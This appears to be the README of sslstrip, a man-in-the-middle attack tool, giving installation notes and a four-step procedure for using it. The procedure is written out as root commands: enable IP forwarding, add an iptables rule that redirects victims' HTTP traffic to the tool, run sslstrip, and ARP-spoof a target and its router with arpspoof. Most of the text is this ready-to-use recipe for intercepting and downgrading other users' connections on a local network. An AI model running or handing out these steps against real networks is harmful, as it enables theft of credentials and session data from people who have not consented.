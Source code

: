 From https://github.com/mh4x0f/sslstrip3

Installing:
_ Unpack: tar zxvf sslstrip-0.5.tar.gz
_ Install twisted: sudo apt-get install python-twisted-web \* (Optionally) run 'python setup.py install' as root to install,
or you can just run it out of the directory.

Running:
sslstrip can be run from the source base without installation.
Just run 'python sslstrip.py -h' as a non-root user to get the
command-line options.

    The four steps to getting this working (assuming you're running Linux)
    are:

    1) Flip your machine into forwarding mode (as root):
       echo "1" > /proc/sys/net/ipv4/ip_forward

    2) Setup iptables to intercept HTTP requests (as root):
       iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

    3) Run sslstrip with the command-line options you'd like (see above).

    4) Run arpspoof to redirect traffic to your machine (as root):
       arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>
